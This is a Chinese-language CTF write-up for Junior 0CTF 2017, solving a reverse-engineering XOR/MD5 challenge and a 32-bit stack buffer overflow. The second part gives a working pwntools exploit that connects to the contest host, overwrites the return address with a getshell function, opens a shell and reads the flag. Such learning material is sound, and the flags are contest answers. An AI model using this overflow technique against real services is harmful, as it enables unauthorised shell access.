 # [Junior 0CTF 2017](https://ctf.0ops.sjtu.cn/)
---
#### Written By WOET
---
本来说这次要复习是不去参加的，已经做好了一道题都不做的准备了，然而有参加的学弟问到我相关的问题，然后按捺不住想做的心情，还是注册进去把这两道水题给看了一下。唔……flag就是用来倒的嘛！
## babyre
这一题给出了一个encrypt.pyc的文件，要想拿到flag就得先对它进行反编译才行，找到了uncompyle6这个对pyc文件反编译的工具，得到了如下结果：

```python
# uncompyle6 version 2.14.0
# Python bytecode 2.7 (62211)
# Decompiled from: Python 2.7.10 (default, Jul 15 2017, 17:16:57) 
# [GCC 4.2.1 Compatible Apple LLVM 9.0.0 (clang-900.0.31)]
# Embedded file name: encrypt.py
# Compiled at: 2017-12-04 22:59:29
from hashlib import md5

def md5raw(s):
    return bytearray(md5(s).digest())


def xor(a, b):
    assert len(a) == len(b)
    return bytearray([ i ^ j for i, j in zip(a, b) ])


flag = bytearray(raw_input('Show me your flag: '))
assert len(flag) == 32
for i in range(16):
    flag[:16] = xor(flag[:16], md5raw(flag[16:]))
    flag[:16], flag[16:] = flag[16:], flag[:16]

if flag == '\xa5\xc6\xe6\xeca\x0c:ED\xed#\x19\x94LF\x11\x17\xc4.\xeb\xa1\xc2|\xc1<\xa9\\A\xde\xd22\n':
    print 'Right!'
else:
    print 'Wrong!'
# okay decompiling encrypt.pyc
```

由此可见是接收了一个32位的输入，对其进行了一系列花哨的异或操作，检查如果和本地的字符串相等的话，就说明该输入是flag。这里的操作看起来花里胡哨，其实是可逆的操作。因此只需要依样画葫芦就可以找到flag了。

```python
flag = bytearray('\xa5\xc6\xe6\xeca\x0c:ED\xed#\x19\x94LF\x11\x17\xc4.\xeb\xa1\xc2|\xc1<\xa9\\A\xde\xd22\n')
for i in range(16):
    flag[:16], flag[16:] = flag[16:], flag[:16]
    flag[:16] = xor(flag[:16], md5raw(flag[16:]))

print flag
```

然后就可以得到flag为：**flag{1nt3re5tiNg\_F3iste1_ciPh3R}**
## seabreeze's stack
这是一道简单的pwn的题。首先将文件下载下来放到IDA里去进行反汇编。可以看到main函数是这样的结构：

```c++
int __cdecl main(int argc, const char **argv, const char **envp)
{
  work();
  return 0;
}
```

循着这里的调用，找到work函数，发现work函数是这样的结构：

```c++
int work()
{
  char s1; // [esp+Ch] [ebp-3FCh]

  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stderr, 0, 2, 0);
  alarm(60u);
  puts("Do you want to get acquainted with top experts and like-minded friends in computer security?");
  __isoc99_scanf("%4s", &s1);
  if ( strcmp(&s1, "Yes!") )
    exit(0);
  puts("Do you want to stride forwards on the road of hacking and explore endless possibilities?");
  __isoc99_scanf("%5s", &s1);
  if ( strcmp(&s1, "Yes!!") )
    exit(0);
  puts("Do you want to challenge world cutting-edge technology and compete with outstanding hackers?");
  __isoc99_scanf("%6s", &s1);
  if ( strcmp(&s1, "Yes!!!") )
    exit(0);
  return __isoc99_scanf("%s", &s1);
}
```

这样看的话根本看不出来flag藏在什么地方。不过考虑到这道题给出了"nc 202.121.178.181 12321"，那就意味着是要连接到远程服务器的，而且本来就是pwn的题，那基本上是要想办法运行"/bin/sh"了。在IDA上寻找了一番，果然发现了名为getshell的函数。

```c++
void __noreturn getshell()
{
  puts("[\x1B[31m*\x1B[0m] Shell Gotten!");
  system("/bin/sh");
  exit(0);
}
```

也就是说只要能想办法运行这个函数就可以了。

注意到work函数中的最后一个scanf是没有指定大小的，也就是说那里存在一个BOF (Buffer Overflow)的漏洞。根据IDA给出的信息，char s1离ebp的距离是**0x3fc**，getshell函数的地址是**080485CB**，也就是只需要填充掉这0x3fc的内容以及save ebp的四个字节，再用getshell的函数地址覆盖掉**ret**就可以了。因为需要进入交互模式下去找flag，所以需要借助Python的pwntools。

Python的利用代码如下：

```python
from pwn import *

p = remote("202.121.178.181", 12321)
payload = "Yes!\nYes!!\nYes!!!\n"
payload += 0x3fc * 'a' + 'bbbb'
payload += p32(0x80485cb)

p.send(payload)
p.interactive()
```

然后在里面找到flag即可：

>$ cat home/stack/flag  
>flag{h4v3\_y0u\_533n\_0ur_p0st3r?}
